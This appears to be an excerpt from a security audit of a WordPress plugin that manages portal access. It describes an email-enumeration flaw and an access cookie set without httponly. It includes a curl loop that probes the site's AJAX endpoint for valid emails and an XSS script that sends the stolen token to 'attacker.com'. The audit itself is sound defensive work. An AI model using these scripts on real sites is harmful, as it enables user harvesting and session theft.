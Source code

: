 **Attack Scenario:**
```bash
# Attacker script
for email in email_list.txt; do
  curl -X POST https://realtreasury.com/wp-admin/admin-ajax.php \
    -d "action=restore_portal_access" \
    -d "email=$email" \
    -d "nonce=XXX"
done

# Response analysis:
# "Access restored" = Valid user email
# "User not found" = Invalid email
# Result: Attacker now has list of all valid user emails
```

**Why This Matters:**
1. **Email List Validation**: Spammers can verify which emails are in your system
2. **Targeted Phishing**: Valid emails become phishing targets
3. **No Rate Limiting**: Can check 10,000 emails in minutes
4. **Nonces are Public**: Generated on every page load, easily obtained

---

### 4. Cookie Security 🔴

#### Current State:
**File:** `plugins/treasury-portal-access/treasury-portal-access.php:243-255`

```php
private function set_access_cookies($access_token, $email, $duration) {
    $expiry = time() + $duration;
    $options = [
        'expires'  => $expiry,
        'path'     => COOKIEPATH,
        'domain'   => COOKIE_DOMAIN,
        'secure'   => is_ssl(),
        'httponly' => false,  // ⚠️ CRITICAL VULNERABILITY
        'samesite' => 'Lax'
    ];
    setcookie('portal_access_token', $access_token, $options);
}
```

**Critical Issue:**
```javascript
// From frontend-scripts.php:459
// Because httponly = false, JavaScript can read the cookie:
const hasCookie = document.cookie.includes('portal_access_token');

// ⚠️ This means ANY XSS vulnerability allows token theft
```

**Attack Scenario:**
```html
<!-- If attacker finds ANY XSS vulnerability on your site -->
<script>
  // Steal all access tokens
  var token = document.cookie.match(/portal_access_token=([^;]+)/)[1];

  // Send to attacker's server
  fetch('https://attacker.com/steal.php?token=' + token);

  // Attacker now has valid 180-day access token
</script>
```
